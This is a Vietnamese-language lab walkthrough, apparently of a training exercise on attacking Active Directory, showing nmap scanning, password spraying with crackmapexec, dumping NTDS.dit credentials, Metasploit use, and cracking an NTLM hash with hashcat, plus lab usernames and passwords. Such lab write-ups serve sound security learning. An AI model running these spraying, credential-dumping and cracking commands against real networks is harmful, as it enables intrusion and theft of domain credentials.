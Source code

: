 <h1>Attacking Active Directory & NTDS.dit</h1>\

![image](https://github.com/user-attachments/assets/bc6bf75a-a3d9-4c77-b9b9-df6477e162ba)

![image](https://github.com/user-attachments/assets/c7e4a226-47e7-4f4f-b9f7-0da54bd27250)

![image](https://github.com/user-attachments/assets/163f93be-44e4-42cb-a77f-76b110a5d254)

Như mọi mở đầu, chạy `nmap -sV 10.129.202.85` và thấy chưa biết nên khai thác gì:

![image](https://github.com/user-attachments/assets/a97ec0d5-4749-4db4-aff2-6961c6003d06)

Ở câu hỏi có mấy cái tên nên tôi tạo 1 vài usernane với tool [username anarchy](https://github.com/urbanadventurer/username-anarchy):

![image](https://github.com/user-attachments/assets/0ba7da15-81bd-4482-9f15-feac378718b2)

Dùng `crackmapexec smb 10.129.202.85 -u user.txt -p /usr/share/wordlists/fasttrack.txt` để mò username:pass :

![image](https://github.com/user-attachments/assets/1cca2717-f0c8-4aec-8827-cfa8bb2a6a43)

Sau 1 lúc thì có cjohnson:Welcome1212 :

![image](https://github.com/user-attachments/assets/539d30ca-105d-4194-9154-fec1ea88fa65)

Dùng lệnh `crackmapexec smb 10.129.204.43 -u cjohnson -p 'Welcome1212' --ntds` để lấy ntds thôi:

![image](https://github.com/user-attachments/assets/c05c71bc-fe5b-41dd-9f40-f5a794d2e178)

Không hiểu sao, đi tìm trên forum thì thấy bảo dùng metasploit để chạy:

![image](https://github.com/user-attachments/assets/04304609-a2f0-4a99-90c1-a891d374ff6f)

![image](https://github.com/user-attachments/assets/b89c256b-f563-4f13-9f7f-62b88982d55d)

Sau gần tiếng:

![image](https://github.com/user-attachments/assets/4435306c-ce78-4576-a0bc-20a81020a3bb)

jmarston:P@ssword!

Hết thời gian nên đổi ip mới:

![image](https://github.com/user-attachments/assets/470b7b57-bb4f-4572-8f41-5bca37eed829)

Dùng `crackmapexec smb 10.129.204.43 -u jmarston -p P@ssword! --ntds` để lấy ntds:

![image](https://github.com/user-attachments/assets/b24b66ef-2113-412f-ad2f-4085a4791bc0)

![image](https://github.com/user-attachments/assets/debb5b38-8240-4511-abc4-7d2aa73d7d84)

Tôi có được hash của user cần tìm pass, dùng hashcat `sudo hashcat -m 1000 92fd67fd2f49d0e83744aa82363f021b /usr/share/wordlists/rockyou.txt`:

![image](https://github.com/user-attachments/assets/31e50672-928a-4452-b9c0-7624c9512ead)

